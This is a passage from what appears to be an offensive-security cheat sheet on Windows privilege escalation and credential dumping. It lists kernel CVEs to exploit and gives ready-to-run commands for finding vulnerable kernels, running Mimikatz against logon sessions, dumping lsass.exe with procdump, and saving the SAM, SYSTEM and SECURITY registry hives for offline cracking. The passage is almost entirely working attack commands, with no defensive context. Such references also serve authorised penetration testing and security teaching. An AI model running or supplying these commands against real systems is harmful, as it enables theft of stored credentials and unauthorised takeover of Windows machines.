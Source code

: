 ### Finding Vulnerable Kernels

```powershell
# Check Windows version and patches
systeminfo

# Check for kernel exploits with automation
# Use tools like Windows-Exploit-Suggester:
systeminfo > systeminfo.txt
windows-exploit-suggester.py --database 2021-04-10-mssb.xls --systeminfo systeminfo.txt
```

Common Windows kernel exploits:
- MS16-032
- MS15-051
- CVE-2019-1388
- CVE-2020-0787
- CVE-2020-1472 (Zerologon)

## Credential Dumping

### Memory Dumping

```powershell
# Mimikatz (PowerShell version)
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'

# Dump lsass.exe with Task Manager:
# 1. Open Task Manager
# 2. Find lsass.exe
# 3. Right-click > Create dump file

# Dump with procdump from Sysinternals
procdump.exe -ma lsass.exe lsass.dmp
```

### SAM and SYSTEM Backup

```powershell
# Copy SAM, SYSTEM, SECURITY registry hives
reg save HKLM\SAM sam.hive
reg save HKLM\SYSTEM system.hive
reg save HKLM\SECURITY security.hive

# Look for backup copies
dir C:\Windows\Repair\*.SAM
dir C:\Windows\System32\config\RegBack\*.SAM
```

### Finding Credentials in LSASS Dumps

```powershell
# Using Mimikatz
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords full
```
